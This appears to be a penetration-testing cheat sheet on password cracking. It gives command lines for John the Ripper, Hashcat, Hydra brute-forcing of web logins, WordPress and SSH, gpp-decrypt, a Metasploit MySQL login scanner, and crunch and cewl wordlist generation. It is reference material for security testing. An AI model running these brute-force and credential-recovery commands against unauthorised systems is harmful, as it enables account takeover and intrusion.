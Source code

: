 # Password cracking

Passwords can be brute-forced \(e.g. just iterating through different letter/number combinations\) but it is probably more efficient to use a dictionary. In Kali, wordlists can be found in `/usr/share/wordlists`. Both `fasttrack` and `rockyou` are good for testing weak passwords. Many applications and services are installed with [default passwords](http://www.defaultpassword.com/), so always check for those before attempting to crack them.

## Identifying hashes

Passwords will often be hashed in databases, sometimes with a salt. If the database/application includes a salt with the password, you'll need to some research to figure out how it is used in the hashed password. For example, it might be concatenated with the password \(salt + password, password + salt\) before hashing, or it may be hashed multiple times.

Identifying hashes using hash-identifer:

```text
hash-identifier
```

## John the Ripper

John is useful for offline password cracking, with a hash stored in a text file.

Usage:

```text
john --wordlist=/usr/share/wordlists/rockyou.txt -format=Raw-MD5 /root/Desktop/john.txt
```

The `format` option is not always necessary as john does a decent job of guessing. Here's a [list of supported formats](http://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats).

## Hydra

Hydra is a command-line tool for online password attacks, such as website login pages and ssh. The options can be tricky, so you can use [Burp Intruder](https://support.portswigger.net/customer/portal/articles/1964020-using-burp-to-brute-force-a-login-page) as an alternative for websites. However, it seems to have trouble loading large wordlists such as rockyou.

### Websites

Hydra is useful for brute-forcing website login pages, but you'll need to [pass it the HTTP request string using Burp's proxy](https://www.hackers-arise.com/single-post/2018/02/26/Online-Password-Cracking-with-THC-Hydra-and-Burp-Suite) and parameters for success or failure.

General format for website attacks:

```text
hydra -L <username list> -p <password list> [host] http-post-form "<path>:<form parameters>:<failed login message>"
```

Attack [DVWA](http://www.dvwa.co.uk/) login page:

```text
hydra -L <wordlist> -P <password list> [host] http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"
```

Attack WordPress login page with a known username, success parameter `S=` instead of failure parameter, verbose output:

```text
hydra -l [username] -P /usr/share/wordlists/rockyou.txt [host] http-post-form "/wp-admin/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:S=http%3A%2F%2F[host]%2Fwp-admin%2F" -V
```

### SSH

General usage:

```text
hydra -l root -P /usr/share/wordlists/fasttrack.txt [host] ssh
```

SSH with a non-standard port \(22022\):

```text
hydra -s 22022 -l root -P /usr/share/wordlists/fasttrack.txt [host] ssh
```

SSH with a username wordlist, non-standard port, limited threads and verbose output:

```text
hydra -s 22022 -L userlist.txt -P /usr/share/wordlists/fasttrack.txt [host] ssh -t 4  -v
```

## Hashcat

Hashcat is a very fast password-cracking tool, with [many supported formats](https://hashcat.net/wiki/doku.php?id=example_hashes).

General usage:

```text
hashcat -m 0 -a 0 -o cracked.txt target_hashes.txt /usr/share/wordlists/rockyou.txt --force
```

* `m` is the hash format \(e.g. m 13100 is Kerberos 5\)
* `a 0` is a dictionary attack
* `o cracked.txt` is the output file for the cracked password
* `target_hashes.txt` is the hash to be cracked
* `/usr/share/wordlists/rockyou.txt` is the absolute path to the wordlist
* `--force` is something I always have to add \(think it's GPU-related\)

## GPP-decrypt

Group Policy Preferences \(GPP\) has been used in the past to allow Windows administrators to create domain policies with embedded credentials. These policies allowed administrators to set local accounts, embed credentials for the purposes of mapping drives, or perform other tasks that may otherwise require an embedded password in a script.

Unfortunately, the password that is stored in the policy is [encrypted with a known key](https://msdn.microsoft.com/en-us/library/cc422924.aspx), meaning anyone who can access the GPP [can obtain the plain text password](https://blog.rapid7.com/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/). Since GPPs are stored on the domain controller in the SYSVOL share, this means that at a minimum all domain users can access the encrypted credentials.

Once you find and download the groups.xml file, extract the contents of `cpassword` and use gpp-decrypt:

```text
gpp-decrypt [hash]
```

## MySQL brute force

With Metasploit:

```text
msf > use auxiliary/scanner/mysql/mysql_login
msf auxiliary(mysql_login) > set rhosts [target]
msf auxiliary(mysql_login) > set rport [port]
msf auxiliary(mysql_login) > set user_file /root/Desktop/users.txt
msf auxiliary(mysql_login) > set pass_file /root/Desktop/password.txt
msf auxiliary(mysql_login) > run
```

## Custom wordlists

Custom wordlists are useful when targeting a specific organization or individual, to generate more relevant password lists.

### Crunch

Crunch generates a custom password lists that can be used to guess passwords. These include:

* All combinations for a number of letters.
* All combinations for a range of characters followed by static text.
* Password lists based on default password ranges \(default router passwords for example\).

General usage:

```text
crunch [min length] [max length] [charset] [options]
```

Generates a password list with all possible combinations of 4 capital letters:

```text
crunch 4 4 ABCDEFGHIJKLMNOPQRSTUVWXYZ -o /root/Desktop/wordlist.txt
```

Generate a list with all combinations for 5 digits:

```text
crunch 5 5 0123456789 -o /root/Desktop/wordlist.txt
```

Generate a wordlist that contains all possible combinations with four letters followed by 1980:

```text
crunch 8 8 ABCDEFGHIJKLMNOPQRSTUVWXYZ -t @@@@1980 -o /root/Desktop/wordlist.txt
```

Use the -p option defining the charset which eliminates repeating characters or words. This is creates a wordlist using different combinations of specific words.

Generate all combinations of the words ‘Dog Cat Mouse’:

```text
crunch 1 2 -p Dog Cat Mouse -o /root/Desktop/wordlist.txt
```

### Cewl

Cewl scrapes websites for text to generate a custom password list.

Options:

* `-m` is the minimum word length for words to save to the wordlist.
* `-d` is the maximum depth the spider is allowed to scrape.
* `-o` is offsite, used to allow the spider to leave the current website to another website.
* `-w` is write to output file, specify the output file here.

Example: use Cewl on the Kali Linux website to find words with 8 letters or greater and go 1 level deep:

```text
cewl -d 1 -m 8 -w /root/Desktop/cewl.txt https://www.kali.org
```

